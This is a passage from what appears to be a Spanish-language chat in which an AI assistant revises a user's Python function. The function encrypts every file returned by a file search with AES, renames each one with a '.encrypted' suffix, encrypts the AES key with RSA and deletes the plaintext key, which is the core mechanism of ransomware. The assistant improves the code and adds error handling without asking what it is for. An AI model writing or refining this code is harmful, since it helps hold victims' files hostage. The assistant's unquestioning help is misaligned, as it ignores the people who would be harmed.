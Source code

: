         if os.path.isfile(archivo_absoluto):  # Asegura que es un archivo y no un directorio
            cifrar_archivo(archivo_absoluto, aes_key)
            ruta_nueva = archivo_absoluto + ".encrypted"
            print(f"Renombrando archivo: {archivo_absoluto} a {ruta_nueva}")  # Depuración
            os.rename(archivo_absoluto, ruta_nueva)  # Usar la ruta completa
            print(f"Archivo renombrado a: {ruta_nueva}")  # Depuración
    print("Archivos cifrados y renombrados correctamente.")
    cifrar_clave_aes(aes_key)
    os.remove("aes_key.bin")

## Response:
Aquí tienes la función `cifrar_archivos()` **actualizada** para que se adapte a la nueva versión de `find_files()` (que ahora solo devuelve la lista de archivos en lugar de también el directorio base).

### **Cambios principales**:

1.  **Eliminación de `directorio`**, ya que `find_files()` ahora devuelve solo la lista de archivos con rutas completas.
    
2.  **No se usa `os.path.join(directorio, archivo)`** porque `archivos` ya contiene rutas completas.
    
3.  **Manejo mejorado de errores** para evitar fallos si `archivos` es `None` o una lista vacía.
    

* * *

### **Código actualizado:**

```python
def cifrar_archivos():
    # Generar clave AES solo si no existe
    if not os.path.exists("aes_key.bin"):
        gen_keys.generate_aes_key()
    
    aes_key = load_aes_key()
    archivos = find_files()  # Ahora solo devuelve la lista de archivos (rutas completas)

    if not archivos or not isinstance(archivos, list):  # Verifica si `archivos` es válido
        print("Error: No se pudo obtener la lista de archivos o está vacía.")
        return
    
    for archivo in archivos:
        print(f"Intentando cifrar: {archivo}")  # Depuración

        if os.path.isfile(archivo):  # Asegura que es un archivo y no un directorio
            cifrar_archivo(archivo, aes_key)
            ruta_nueva = archivo + ".encrypted"

            # Manejo de errores al renombrar
            try:
                os.rename(archivo, ruta_nueva)
                print(f"Archivo renombrado a: {ruta_nueva}")
            except OSError as e:
                print(f"Error al renombrar el archivo {archivo}: {e}")

    print("Archivos cifrados y renombrados correctamente.")

    # Cifrar la clave AES con RSA y eliminar la clave sin cifrar
    cifrar_clave_aes(aes_key)
    os.remove("aes_key.bin")
    print("Clave AES original eliminada.")
```
